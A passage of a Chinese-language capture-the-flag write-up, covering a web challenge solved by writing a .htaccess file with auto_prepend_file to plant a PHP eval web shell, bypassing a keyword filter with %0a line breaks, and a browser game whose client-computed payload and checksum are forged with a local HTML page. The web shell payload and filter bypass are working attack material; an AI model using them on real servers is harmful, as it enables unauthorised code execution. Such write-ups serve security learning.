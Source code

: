 且存在过滤；这里利用.htaccess包含来getshell，过滤的关键字部分用%0a换行绕过

> 可以指定某一个文件夹内的页面文件auto_prepend_file（顶部）与auto_append_file（底部）
>
> 在需要顶部或底部加载文件的文件夹中加入`.htaccess`文件，内容如下：
>
> ```
> php_value auto_prepend_file "xxx"
> php_value auto_append_file "xxx"
> ```

payload:

```
?filename=.htaccess&content=php_value auto_prepend_fi\%0ale ".htaccess" %0a%23<?php eval($_POST[1]);?>%0a%23\
```



## 715 - js

尝试在调试直接改数值，但是打赢了也会爆hacker；

战斗过程会由attrack记录为payload的值，战斗结束后计算签名checksum；

然后将payload和checksum一起发送到后端检测



那么可以在本地跑一个payload出来

```html
<html>

<head>
    <title>Sanity Check</title>
    <link href="/static/css/main.css" rel="stylesheet">
    <link href="https://unpkg.com/nes.css@2.3.0/css/nes.min.css" rel="stylesheet" />
    <link href="/static/css/style.css" rel="stylesheet" />
</head>
<body onload="play()">
    <div class="container">
        <div class="nes-container is-rounded">
            <div class="row">
                <div class="column">
                    <progress class="nes-progress is-error" value="90" max="100" id="player-sanity-bar"></progress>
                    <div id="player-sanity"></div>
                </div>
                <div class="column">
                    <progress class="nes-progress is-error flipped" value="95" max="100" id="cthulhu-sanity-bar"></progress>
                    <div id="cthulhu-sanity"></div>
                </div>
            </div>
            <hr>
            
            <section class="message-list" id="messages"></section>
        </div>
    </div>
    <form action="/" method="POST" style="display: none;">
        <input type="hidden" id="payload" name="payload">
        <input type="hidden" id="checksum" name="checksum">
        <input type="submit" id="submit">
    </form>
</body>
<script src="/static/js/core.js"  crossorigin="anonymous"></script>
<script src="/static/js/sha256.js" crossorigin="anonymous"></script>
```